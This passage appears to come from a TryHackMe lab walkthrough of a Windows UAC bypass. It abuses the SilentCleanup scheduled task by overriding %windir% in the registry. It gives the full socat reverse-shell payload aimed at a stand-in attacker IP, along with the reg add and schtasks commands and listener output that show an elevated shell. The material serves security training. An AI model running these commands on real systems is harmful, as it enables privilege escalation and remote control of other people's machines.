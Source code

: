Checking the Actions and Settings tabs, we have the following:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/3b8dd4c6a441eb19620bc3bedd536a8b.png)  

The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.

  

### Putting it all together

Let's set up a listener for a reverse shell with nc:  
`nc -lvp 4446`

We will then connect to the backdoor provided on port 9999:  
`nc 10.10.86.125 9999`

And finally, run the following commands to write our payload to `%windir%` and then execute the DiskCleanup task (be sure to replace your IP address where needed):

Command Prompt

```shell-session
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

As a result, you should obtain a shell with high IL:

Attacker's Machine

```shell-session
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```
